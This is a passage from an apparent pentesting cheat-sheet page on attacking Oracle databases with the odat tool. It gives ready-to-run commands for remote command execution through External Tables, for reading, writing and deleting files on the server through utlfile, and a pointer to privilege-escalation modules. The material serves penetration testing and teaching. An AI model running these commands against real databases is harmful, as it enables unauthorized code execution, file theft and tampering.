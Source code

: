 {% tab title="External Tables" %}
We can try to execute code using [odat](https://github.com/quentinhardy/odat) and Oracle External Tables

```bash
odat externaltable -s <IP> -U <username> -P <password> -d <SID> --exec "C:/windows/system32" "calc.exe"
```

{% hint style="info" %}
ODAT requires the privilege ‘CREATE ANY DIRECTORY’, which, by default, is granted only to DBA role, since it attempts to execute the file from any and not only “your” directory ([the manual version](../../../web/infrastructures/dbms/exploit-databases.md) of this attack requires less privileges).
{% endhint %}
{% endtab %}
{% endtabs %}

### Read/Write files

{% tabs %}
{% tab title="Utlfile" %}
We can try to read/write files using [odat](https://github.com/quentinhardy/odat) and utlfile

```bash
#Read file
odat utlfile -s <IP> -d <SID> -U <username> -P <password> --getFile "C:/RemotePath" remote_file.txt local_file.txt

#Write file
odat utlfile -s <IP> -d <SID> -U <username> -P <password> --putFile "C:/RemotePath" remote_file.txt local_file.txt

#Remove file
odat utlfile -s <IP> -d <SID> -U <username> -P <password> --removeFile "C:/RemotePath" remote_file.txt
```
{% endtab %}

{% tab title="External Tables" %}
We can try to read files using [odat](https://github.com/quentinhardy/odat) and Oracle External Tables

```bash
#Read file
odat externaltable -s <IP> -U <username> -P <password> -d <SID> --getFile "C:/RemotePath" remote_file.txt local_file.txt
```
{% endtab %}
{% endtabs %}

### OracleSQL Privilege Escalation

{% tabs %}
{% tab title="odat" %}
We may use the [privesc](https://github.com/quentinhardy/odat/wiki/privesc) module from odat to escalate our privileges on the DB. On that link you will find **several ways to escalate privileges using odat.**
